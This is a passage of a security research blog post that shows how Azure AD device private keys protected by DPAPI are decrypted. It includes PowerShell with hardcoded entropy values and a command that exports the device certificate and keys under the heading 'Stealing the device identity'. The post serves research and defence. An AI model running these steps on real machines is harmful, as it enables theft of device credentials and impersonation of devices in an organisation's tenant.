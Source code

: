 Again, Benjamin had done a great job by figuring out the entropy needed for both encrypted blobs. After banging my head to the wall over a weekend, I realised that I was just missing the null terminator 🤣

The PowerShell code to decrypt the encrypted blobs:

{{< highlight powershell >}}
$DPAPI_ENTROPY_CNG_KEY_PROPERTIES = @(0x36,0x6A,0x6E,0x6B,0x64,0x35,0x4A,0x33,0x5A,0x64,0x51,0x44,0x74,0x72,0x73,0x75,0x00) # "6jnkd5J3ZdQDtrsu" + null terminator 
$DPAPI_ENTROPY_CNG_KEY_BLOB       = @(0x78,0x54,0x35,0x72,0x5A,0x57,0x35,0x71,0x56,0x56,0x62,0x72,0x76,0x70,0x75,0x41,0x00) # "xT5rZW5qVVbrvpuA" + null terminator

# Decrypt the private key properties using DPAPI
$decPrivateProperties = [Security.Cryptography.ProtectedData]::Unprotect($privatePropertiesBlob, $DPAPI_ENTROPY_CNG_KEY_PROPERTIES, "LocalMachine")

# Decrypt the private key blob using DPAPI
$decPrivateBlob = [Security.Cryptography.ProtectedData]::Unprotect($privateKeyBlob, $DPAPI_ENTROPY_CNG_KEY_BLOB, "LocalMachine")
{{< /highlight>}}

**Note!** For AAD Registered devices, use "CurrentUser" instead of "LocalMachine"


The encrypted private key was **BCRYPT_PRIVATE_KEY_BLOB** that has P and Q parameters, but the **System.Security.Cryptography.**<a href="https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.rsaparameters#summary-of-fields" target="_blank">RSAParameters</a> would also need **DP**, **DQ**, **InverseQ**, and **D** parameters.
This information would have been available in **BCRYPT_RSAFULLPRIVATE_BLOB**. The solution was to use **NCryptImportKey** to import the blob as **RSAPRIVATEBLOB** and export with **NCryptExportKey** as **RSAFULLPRIVATEBLOB**.

Lastly, I implemented the last missing part, a parser that was able to read **BCRYPT_RSAFULLPRIVATE_BLOB** and create a **System.Security.Cryptography.RSAParameters** object.

# Stealing the device identity

## Device Certificate and keys

To export the Device Certificate and keys, run the following command as administrator:

{{< highlight powershell >}}
# Export the device certificate and keys:
Export-AADIntLocalDeviceCertificate
{{< /highlight>}}

Output:
```
Certificate exported to ea77c7d5-7b2f-4567-bf0c-c0a4ceb8b679.pfx
```
